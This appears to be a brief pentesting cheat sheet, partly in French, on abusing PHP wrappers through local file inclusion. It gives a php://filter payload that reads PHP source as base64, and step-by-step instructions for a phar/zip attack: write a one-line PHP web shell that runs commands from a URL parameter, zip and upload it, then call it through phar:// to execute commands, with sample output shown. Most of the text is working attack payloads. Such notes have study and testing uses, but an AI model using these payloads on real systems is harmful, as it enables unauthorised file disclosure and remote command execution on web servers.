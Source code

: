 # PHP WRAPPER

## FILTER

Lire un fihier php via LFI: 

	php://filter/convert.base64-encode/resource=file
	
## PHAR-ZIP

- Setup :

vim shell.php

```php
<?php 
	system($_GET['cmd']); 
?>
```

zip shell.zip shell.php

We upload the zip file

--> url?file=shell.zip

- Exploit :

--> url?file=phar://shell.zip/shell.php&cmd=ls

file1
file2
file3
